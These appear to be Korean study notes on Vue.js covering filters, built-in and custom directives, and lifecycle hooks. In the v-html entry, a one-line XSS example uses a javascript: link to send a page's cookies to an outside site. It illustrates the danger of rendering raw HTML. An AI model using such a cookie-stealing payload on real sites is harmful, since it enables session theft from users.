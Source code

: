 filter 필터:
    1. 정의: 표시할 데이터를 특정 형식으로 포맷한 후에 표시함 (간단한 로직 처리에 적합).
    2. 문법:
        > 필터 등록: `Vue.filter(name, callback)`(전역 설정) 또는 `new Vue{filters:{}}`
        > 필터 사용: `{{ xxx | 필터명 }}` 또는 `v-bind:속성="xxx | 필터명"` 적게 쓰임
    3. 비고:
        > 필터는 추가적인 인자를 받을 수 있으며, 여러 필터를 연결할 수도 있음.
        > 원본 데이터를 변경하지 않고, 새로운 데이터를 생성.
    
내부 지령 (지시어) : v-xxx
    1. v-bind   : 단방향 처리 [:xxx 로 간약하게 사용]
    2. v-model  : 양방향 처리
    3. v-for    : 반복문 처리
    4. v-on     : 클릭 이벤트 처리
    5. v-if     : 판단문 처리
    6. v-else   : 판단문
    7. v-show   : 노출 여부 처리
    8. v-text   : 목표에 text 내용 노출 , {{}} 와 달리 전체 치환 
    9. v-html   : html 태그형태로 변환 해서 화면에 노출 
        > v-text 사용법 동일함 , 신중하게 사용 xss 공격에 노출 됨
        > `<a href="javascript:location.href='www.naver.com?'+document.cocik">` 모든 쿠키 정보를 해당 사이트로 이동함
    10. v-cloak : 태그에 임시 속성 추가 , 로딩 완료시 삭제됨 , css 와 결합하여 로딩처리 
    11. v-once  : 최초 동적으로 1회 읽음 , 정적으로 고정됨 
    12. v-pre   : vue 에서 빌드 제외 함 , 즉 동적 데이터 아닐 경우 사용 , 효율 향상됨

자체 지령 (지시어) 요약:
    1. 정의 문법:
        > 지역 지시어:
            new Vue({
                directives: {지시어명: 설정 객체} 또는 {지시어명: 콜백 함수}
            })
        > 전역 지시어:
            Vue.directive(지시어명, 설정 객체) 또는 Vue.directive(지시어명, 콜백 함수)
    2. 설정 객체에서 자주 사용되는 3가지 콜백:
        > bind: 지시어가 요소에 성공적으로 바인딩될 때 호출됨.
        > inserted: 지시어가 있는 요소가 페이지에 삽입될 때 호출됨.
        > update: 지시어가 있는 템플릿 구조가 다시 파싱될 때 호출됨.
    3. 비고:
        > 지시어를 정의할 때는 'v-'를 붙이지 않지만 사용할 때는 'v-'를 추가해야 한다.
        > 지시어 이름이 여러 단어로 구성된 경우 kebab-case[user-name]를 사용해야 하며 camelCase[userName]는 사용하지 않아야 한다.

생명주기:
    1. 다른 이름: 생명주기 콜백 함수, 생명주기 함수, 생명주기 훅.
    2. 정의: Vue가 중요한 시점에 호출하는 몇몇 특별한 이름의 함수들이다.
    3. 생명주기 함수의 이름은 변경할 수 없으며, 함수의 구체적인 내용은 개발자가 요구에 따라 작성한다.
    4. 생명주기 함수 내의 this는 Vue 모델(vm) 또는 컴포넌트 인스턴스 객체를 가리킨다.
    5. 자주 사용하는 생명주기 훅
        > mounted: AJAX 요청을 보내거나, 타이머를 시작하거나, 사용자 정의 이벤트를 바인딩하거나, 메시지를 구독하는 등의 초기화 작업을 수행한다.
        > beforeDestroy: 타이머를 정리하거나, 사용자 정의 이벤트를 해제하거나, 메시지 구독을 취소하는 등의 마무리 작업을 수행한다.
    6. 파괴에 관하여
        > 파괴 후에는 Vue 개발자 도구를 통해 어떠한 정보도 볼 수 없다.
        > 파괴 후에는 사용자 정의 이벤트가 작동하지 않지만, 원래의 DOM 이벤트는 계속 유효하다.
        > 일반적으로 [beforeDestroy]에서 데이터를 조작하지 않는다. 데이터를 조작하더라도 업데이트 프로세스가 다시 트리거되지 않기 때문이다.
